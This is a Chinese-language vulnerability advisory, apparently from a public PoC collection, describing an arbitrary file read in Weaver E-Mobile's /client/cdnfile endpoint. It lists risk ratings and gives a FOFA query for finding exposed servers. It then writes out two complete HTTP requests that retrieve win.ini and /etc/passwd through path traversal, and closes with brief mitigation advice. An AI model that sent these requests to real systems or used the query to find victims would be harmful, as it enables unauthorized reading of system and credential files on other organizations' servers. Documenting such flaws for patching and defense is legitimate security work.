

# 泛微E-Mobile clientcdnfile 任意文件读取漏洞

# 漏洞描述

泛微E-Mobile是一款由泛微网络科技股份有限公司开发的移动办公产品，该产品专门为手机、平板电脑等移动终端用户设计，旨在提供便捷、高效的移动办公体验。适用于企业高管和有移动办公需求的业务部相关员工使用，特别适合于已有内部OA系统的大中型企业机构，尤其是企业或部门有较多的分支机构。

# 影响版本

泛微E-Mobile

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="泛微-EMobile"

POC/EXP：windows

GET /client/cdnfile/1C/Windows/win.ini?windows HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

POC/EXP：linux

GET /client/cdnfile/C/etc/passwd?linux HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

# 修复方案

**临时缓解方案**

接口设置访问权限或限制访问来源地址，如非必要，不要将系统开放在互联网上。

**升级修复方案**

目前官方已发布安全补丁，建议受影响用户尽快升级至安全版本

https://www.weaver.com.cn/

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
